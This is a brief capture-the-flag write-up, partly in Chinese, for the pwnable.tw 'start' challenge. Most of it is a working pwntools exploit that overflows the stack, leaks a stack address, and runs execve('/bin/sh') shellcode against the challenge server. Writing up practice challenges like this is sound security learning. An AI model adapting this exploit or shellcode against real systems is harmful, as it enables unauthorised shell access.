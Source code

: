 # start write up

## 0X01

这是个很简单的程序，保护全关，很明显的栈溢出，思路是先覆盖return地址回print，打印栈上信息，然后再在栈上写入shellcode，跳转执行。

```python
from pwn import *
context(os = 'linux',arch = 'i386', log_level = 'debug')
debug = 0
if debug == 1:
	p = process('./start')
else:
	p = remote('chall.pwnable.tw',10000)

shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
addr = p32(0x0804808B)
payload = 'AAAA' * 5 + addr
#gdb.attach(p)
p.recvuntil(':')
p.send(payload)
stack = int(''.join(reversed(p.recv()[24:28])).encode('hex'),16)
print(hex(stack))
payload = shellcode + '\x00' * 16 + p32(stack - 28)
p.send(payload)
print(hex(stack -28))
p.interactive()
```

找shellcode坑了好久，别的没有难点。